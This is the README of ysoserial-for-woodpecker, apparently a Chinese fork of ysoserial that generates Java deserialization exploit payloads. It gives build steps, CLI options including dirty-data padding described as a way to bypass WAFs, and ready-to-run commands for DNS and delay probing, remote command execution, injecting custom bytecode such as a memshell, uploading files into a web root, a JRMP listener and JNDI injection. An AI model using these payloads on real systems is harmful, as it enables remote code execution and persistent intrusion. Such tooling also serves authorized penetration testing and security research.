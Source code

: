 # ysoserial-for-woodpecker

## 0x01 简介
`ysoserial-for-woodpecker`是基于 [ysoserial](https://github.com/frohoff/ysoserial) ,为woodpecker框架定制开发的JDK反序列化gadget集成库。

## 0x02 编译
Requires Java 1.7+ and Maven 3.x+

```
mvn clean package -DskipTests
```
## 0x03 简单使用

```
usage: ysoserial-for-woodpecker-<version>.jar [-a <arg>] [-c] [-ddl <arg>]
       [-g <arg>] [-l]
 -a,--args <arg>                 gadget parameters
 -c,--compress                   Zip the Templates gadgets
 -ddl,--dirt-data-length <arg>   Add the length of dirty data, used to
                                 bypass WAF
 -g,--gadget <arg>               java deserialization gadget
 -l,--list                       List all gadgets
```


#### 3.1 延时探测
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "sleep:10"
```
#### 3.2 dns探测
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "dnslog:xxx.dnslog.cn"
```

#### 3.3 DNS探测class
```
java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByDNS -a "http://string.dnslog.cn|java.lang.String"
```

#### 3.4 延时探测class
注意设置深度，经过实战深度一般在25-28之间，太大会导致dos。

```
java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|28"
```

#### 3.5 执行命令

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "raw_cmd:calc.exe"
```

#### 3.6 执行自定义字节码

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:/tmp/memshell.class"
```

#### 3.7 上传文件

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:/tmp/local_file.txt|/var/www/remote_file.txt"
```

#### 3.8 执行js

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "script_file:/tmp/sleep.js"
```

#### 3.9 JRMP

```
java -cp ysoserial-for-woodpecker-<version>.jar me.gv7.woodpecker.yso.exploit.JRMPListener 1234 CommonsCollections6Lite "raw_cmd:calc.exe"
```

#### 3.10 JNDI

```
java -jar ysoserial-for-woodpecker-<version>.jar -g Spring3 -a "jndi:ldap://127.0.0.1:1089/obj"
```

更多功能移步`0x04 更多功能命令`
## 0x04 更多功能命令
- [ ] sleep 生成延时payload
- [ ] dnslog 生成dnslog payload
- [ ] httplog 生成httplog payload
- [ ] upload_file  上传文件，通过文件名
- [ ] upload_file_base64 上传文件，通过文件base64内容
- [ ] raw_cmd 原生的命令执行
- [ ] win_cmd 在windows下执行命令
- [ ] linux_cmd 在linux下执行命令
- [ ] auto_cmd  自动判断操作系统执行命令
- [ ] class_file 注入class文件，执行class代码
- [ ] class_base64 注入class base64编码内容，执行class代码
- [ ] code_file 注入要执行的代码
- [ ] code_base64 注入要执行代码的base64编码
- [ ] bcel 注入bcel字符串，实现代码执行
- [ ] bcel_class_file 通过文件注入
- [ ] bcel_with_args 注入bcel字符串和参数，实现代码执行
- [ ] bcel_class_file_with_args 通过文件注入和参数，实现代码执行
- [ ] script_file 通过js引擎执行代码
- [ ] script_base64  通过js引擎执行代码
- [ ] loadjar 调用jar中类的无参构造器
- [ ] loadjar_with_args 调用jar中类的参数为一个String的构造器
- [ ] jndi jndi注入
